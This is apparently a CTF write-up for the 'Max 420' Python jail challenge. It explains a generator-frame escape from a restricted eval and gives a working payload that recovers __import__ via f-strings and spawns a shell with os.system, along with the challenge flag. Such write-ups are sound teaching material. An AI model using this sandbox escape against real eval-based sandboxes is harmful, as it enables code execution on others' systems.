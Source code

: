 ```yaml
---
title: Max 420
tags: [misc, python, pyjail, nordics-ddc-ecsc-2025]
date: 2025-03-17 00:00:01
draft: false
heroImage: ./assets/cyberlandslaget-ddc.png
---
```


<style>
.basis-1\/5{flex-basis: 5% !important;}
.max-w-prose{max-width: 100ch !important;}
.prose{max-width: 100ch !important;}
</style>

# Max 420

```
Show that you are a python whisperer! 
Feel free to chuckle every time you see a funny number.
```

```python
inp = input('Gimme max 420!\n> ')
if not inp.isascii():
    quit('Give me ascii please')
if '__' in inp:
    quit('No thank you')
if len(inp) > 420:
    quit("Don't give me more than your favourite number")

eval(inp, {'__builtins__':{}}, {'__builtins__':{}})
```

## Initial thoughts
The challenge has a few requirements before we can eval our code.
* input needs to be ascii
* no two underscores together used in input
* and length needs to be less than 420
* we need to get RCE

flag file name has random hex appended, so we need more than just file write.

Usually solutions have a way to get back to a class that has builtins, but this seems to not be possible with the limitations of not being able to use __



## Research
I spent time trying to look into solutions from the past and I see mentions of gi_frame, which is generator frame. Generators are unique with needing frames. So after research another way of getting builtins is using generator frames and going back until we are out of the eval frame.

I found this frame escape writeup that has code

https://pid-blog.com/article/frame-escape-pyjail

```python
q = (q.gi_frame.f_back.f_back.f_globals for _ in [1])
```

I then spent some time looking into how eval works, and it only works with evaluating conditions. 

To get a generator running we can do

```python
(y:=[], y.append(z for z in y), *y[0])
```

if we add a print to the eval we get back
```
([<generator object <genexpr> at 0x100de5a80>], None, <generator object <genexpr> at 0x100de5a80>)
```

which returns a tuple with 3 values, generator array y, None, and generator

if we try to get the gi_frame

```python
(y:=[], y.append(z.gi_frame for z in y), y[0])
```

we still get the same output

```python
([<generator object <genexpr> at 0x102655a80>], None, <generator object <genexpr> at 0x102655a80>)
```

and that is because we are not getting the value out from the generator

we can do this by adding a star `*` sign before `y[0]`

```python
(y:=[], y.append(z.gi_frame for z in y), *y[0])
```

and now we get 

```python
([<generator object <genexpr> at 0x1027f9a80>], None, <frame at 0x1027fab00, file '<string>', line 1, code <genexpr>>)
```

What if we try going back two frames, like in writeup I found

```python
(y:=[], y.append(z.gi_frame.f_back.f_back for z in y), *y[0]) 
```

Now we find get back the frame that is in context of the python file.

```python
([<generator object <genexpr> at 0x102bf1a80>], None, <frame at 0x102d1fb90, file '.../max420/chal.py', line 10, code <module>>)
```

I then can use builtins to import os and call system("sh")

```python
(y:=[],y.append(z.gi_frame.f_back.f_back.f_builtins[f"{'_'}_import{'_'}_"]("os") for z in y), *[*y[0]][0].system("sh"))
```

I figured out you can use f strings as an alternative to not get __ 
## Flag

```
DDC{gr34t_j0b!_but_h0w_4b0ut_th4t_0th3r_f4v0ur1t3_numb3r_0f_y0urs?!}
```
